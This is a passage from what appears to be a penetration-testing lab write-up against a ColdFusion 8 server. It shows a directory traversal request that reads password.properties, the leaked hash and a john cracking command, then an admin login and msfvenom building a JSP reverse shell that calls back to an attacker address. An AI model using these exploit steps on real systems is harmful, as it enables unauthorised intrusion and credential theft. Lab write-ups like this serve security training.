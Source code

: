    ```bash
   curl http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
   # Output password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
   
   # Identify Hash
   hashid hash.txt
   
   # Crack hash
   john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-SHA1
   ```

   ![image-20201114110654521](.Report.assets/image-20201114110654521.png)

3. Using this password, I was able to login to the admin console.  From here, I identified the path to the CFIDE folder on Windows: `C:\ColdFusion8\wwwroot\CFIDE\`
   ![image-20201114123514863](.Report.assets/image-20201114123514863.png)

4. Next, generated a JSP reverse shell payload and used the task scheduler to make the target download it to the CFIDE folder:

   ```bash
   msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f raw > rev_jsp_8000.jsp
   ```
